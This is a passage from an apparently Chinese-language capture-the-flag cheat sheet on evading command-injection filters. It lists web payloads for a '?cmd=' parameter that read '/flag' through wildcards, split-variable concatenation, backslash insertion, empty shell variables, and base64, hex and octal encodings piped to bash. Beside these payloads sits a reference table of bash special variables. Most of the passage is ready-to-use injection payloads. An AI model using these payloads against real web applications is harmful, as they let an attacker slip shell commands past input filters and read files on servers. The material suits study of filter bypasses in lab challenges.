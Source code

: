 | `\`    | **转义字符**，取消通配符的特殊意义，使其作为普通字符处理 | `file\*.txt`      | 匹配文件名为 `file*.txt` 的文件                  |

```
?cmd=cat /f*
```

**赋值与拼接：**

```
<@URLe>a=c;b=at;c=fla;d=g;$a$b /$c$d<@URLe>
?cmd=a%3Dc%3Bb%3Dat%3Bc%3Dfla%3Bd%3Dg%3B%24a%24b%20%2F%24c%24d
```

**反斜杠：**

```
?cmd=ca\t /fla\g
```

**特殊变量：**

| 变量           | 含义                                       | 示例输出                          |
| -------------- | ------------------------------------------ | --------------------------------- |
| `${#}`         | 传递给脚本或函数的参数个数                 | `0`（参数为空时）                 |
| `${?}`         | 上一个命令的退出状态                       | `0`（正常退出）或 `1`（异常退出） |
| `${_}`         | 上一个命令的最后一个参数                   | 上一个命令的最后一个参数值        |
| `${0}`         | 当前脚本或 shell 的名字                    | `bash` 或脚本名                   |
| `${1} 到 ${9}` | 传递给脚本或函数的第 1 到第 9 个参数       | 第 1 到第 9 个参数值              |
| `${@}`         | 传递给脚本或函数的所有参数（以列表形式）   | 所有参数值                        |
| `${*}`         | 传递给脚本或函数的所有参数（以字符串形式） | 所有参数作为单个字符串            |
| `${$}`         | 当前 shell 的进程 ID (PID)                 | 进程 ID 值                        |
| `${!}`         | 上一个后台运行的进程的进程 ID (PID)        | 后台进程的 PID                    |
| `${-}`         | 当前 shell 的选项标志                      | `hB`（表示 shell 选项标志）       |

```
?cmd=ca$1t /fl$@ag

?cmd=ca$1t /fl$1ag

?cmd=ca$1t /fl$2ag
```

**编码 / 进制：**

```
cat "$(echo 'L2ZsYWc=' | base64 -d)"
`echo "Y2F0IC9mbGFn"|base64 -d`
echo "Y2F0IC9mbGFn"|base64 -d|bash

echo -n 636174202f666c6167 | xxd -r -p | bash  # 十六进制
$(printf "\143\141\164\040\057\146\154\141\147\012")  # 八进制（or bashfuck）
```
